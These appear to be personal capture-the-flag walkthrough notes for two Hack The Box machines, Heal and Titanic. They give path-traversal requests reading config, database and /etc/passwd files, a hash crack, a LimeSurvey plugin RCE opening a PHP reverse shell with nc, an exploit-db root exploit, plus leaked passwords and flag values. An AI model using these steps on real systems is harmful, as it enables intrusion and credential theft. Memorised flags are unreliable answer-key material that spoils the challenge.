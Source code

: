 # Machine : Heal

## User flag
- nmap -sC -sV -Pn 10.10.11.46
- add heal.htb to /etc/hosts
- `ffuf -u http://heal.htb -w /usr/share/wordlists/wfuzz/general/medium.txt -H "Host:heal.htb/FUZZ"
- add api.heal.htb to /etc/hosts
- create account -> login -> survey -> find `take-survey.heal.htb
- add take-survey.heal.htb to /etc/hosts
- `dirsearch -u "http://take-survey.heal.htb/index.php/" -i 200
- find http://take-survey.heal.htb/index.php/admin
- open burp -> proxy -> intercept on open browser
- go to http://heal.htb/resume
- forward -> forward -> copy get request -> Repeater
- Since api.heal.htb tells us that it uses ruby on rails, find config file
- burp -> replace GET request by `GET /download?filename=../../config/database.yml HTTP/1.1
- response -> database: storage/development.sqlite3
- replace GET by `GET /download?filename=../../storage/development.sqlite3 HTTP/1.1
- download the database
- use db Browser (or something else)
- find ralph hash -> use john the ripper -> password is `147258369
- use this exploit : https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
- do the following change : config.xml -> add \<version>6.0\</version>
- do the following change : php-rev.php -> change ip (ip a) and port (4444)
- zip the 3 files config.xml php-rev.php and exploit.py in a single zip file
- go to http://take-survey.heal.htb/index.php/admin -> plugin -> install plugin -> add the zip
- nc -lvnp 4444 -> http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php
- open a reverse shell -> cat `/var/www/limesurvey/application/config/config.php`
- find password to ron : `AdmiDi0_pA$$w0rd`
- cat user.txt -> `048c541dbf0b7d86e3da822265b4a55f
## Root flag

- `netstat -tuln` -> find port open
- on own machine, do `ssh -L 8500:127.0.0.1:8500 ron@heal.htb
- find this exploit `https://www.exploit-db.com/exploits/51117`
- `nc -lvnp 6666
- `python exploit.py 127.0.0.1 8500 x.x.x.x(replace with your ip) 6666 0`
- `cat ~/root.txt` -> `3b9b0fef9009baf36248c0e04a0c1ff2

# Machine : Titanic
## User Flag
- `nmap -sC -sV -Pn 10.10.11.55`
- add titanic.htb to my hosts as 10.10.11.55
- after browsing the website every button doesn't work except the "book now" button
- trying to book downloads a json file containing the book info
- try fuzzing for subdomains, just like in linkvortex we find a dev subdomain
`ffuf -u "http://titanic.htb" -H "Host: FUZZ.titanic.htb" -w /usr/share/wordlists/dirb/common.txt -fc 301`
- the dev subdomain leads us to a gitea page (version 1.22.1)
- we can register and explore the public repos (ther is 2)
- got stuck a bit here so checked the forum and apparently one attack vector is the download of the json file when booking 
- i opened the network section of firefox's debuggerto find the GET request being made with this url `http://titanic.htb/download?ticket=17da9336-06ae-4d51-9f92-e28091049a78.json`
- tried to see if there was a path traversal vulnerability which there was 
`curl http://titanic.htb/download?ticket=../../../../etc/passwd`
- we find a user named developer so we exploit the same vulnerability to check if he has the user flag 
```
```